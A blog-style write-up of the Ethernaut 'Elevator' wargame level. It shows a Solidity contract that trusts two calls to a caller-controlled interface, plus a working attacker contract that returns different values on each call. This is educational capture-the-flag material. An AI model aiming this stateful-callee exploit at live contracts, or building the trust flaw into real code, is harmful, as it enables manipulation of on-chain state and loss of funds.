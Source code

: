 ######################
Ethernaut 11: Elevator
######################
:date: 2023-08-06
:slug: ethernaut-11-elevator
:summary: Weird, an ethereum game where the state takes you to the top
:tags: programming
:author: capu
:featured_image:

Objective
=========
Get the elevator to be on the last floor. That is, get the ``top`` variable to
be ``true``.

Code
====
.. code-block:: solidity
    :linenos: inline
    :hl_lines: 12 14

    interface Building {
        function isLastFloor(uint256) external returns (bool);
    }

    contract Elevator {
        bool public top;
        uint256 public floor;

        function goTo(uint256 _floor) public {
            Building building = Building(msg.sender);

            if (!building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }

The idea is:

1. if the ``_floor`` we want to ``goTo`` is the top floor, do nothing
2. otherwise, set the state variable ``floor`` to the passed ``_floor``
3. then, set ``top`` to the return value of a *new call* to
   ``building.isLastFloor``. But we'd only gotten here if the current isn't the
   top floor, right?

Solution
========

This confused me for a bit because there are two calls to the same contract
(lines 12, 14) with the same parameters which are expected to return different
things.

But then I realized: receiving a parameter doesn't mean I have to do anything
with it! So the return value doesn't depend on it in any way, instead
``MyBuilding.isLastFloor`` just returns ``false`` on its first invocation, and
``true`` from then on.

.. code-block:: solidity
    :linenos: inline

    contract MyBuilding is Building {
        uint256 private callCount = 0;

        function isLastFloor(uint256) external returns (bool){
            return callCount++ > 0;
        }

        function goTo(Elevator elevator) external {
            elevator.goTo(420);
        }
    }

Boy I like the smell of a post-increment operator in the morning

Also, note it doesn't even matter what the floor number actually is, since
``Elevator`` is agnostic to it and our ``Building`` contract does nothing with
it.

.. code-block:: solidity
    :linenos: inline

    function solution(address payable target_) internal override{
        Elevator target = Elevator(target_);
        (new MyBuilding()).goTo(target);
    }

